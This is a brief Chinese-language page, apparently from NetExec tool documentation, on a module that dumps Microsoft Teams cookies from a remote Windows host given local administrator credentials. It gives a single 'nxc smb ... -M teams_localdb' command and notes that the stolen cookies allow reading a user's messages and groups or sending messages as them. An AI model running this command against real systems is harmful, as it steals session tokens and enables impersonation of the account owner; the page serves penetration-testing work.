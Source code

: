 # 窃取 Microsoft Teams Cookies

{% hint style="warning" %}
你需要在远程目标上至少具有本地管理员权限
{% endhint %}

感谢 [@KuiilSec](https://twitter.com/KuiilSec) 的贡献，这是一个新的 NetExec 模块，用于导出 Microsoft Teams cookies。

你可以使用这些 cookies 来获取用户、消息、群组等信息，或直接在 Teams 中发送消息。

```
$ nxc smb <ip> -u user -p pass -M teams_localdb
```
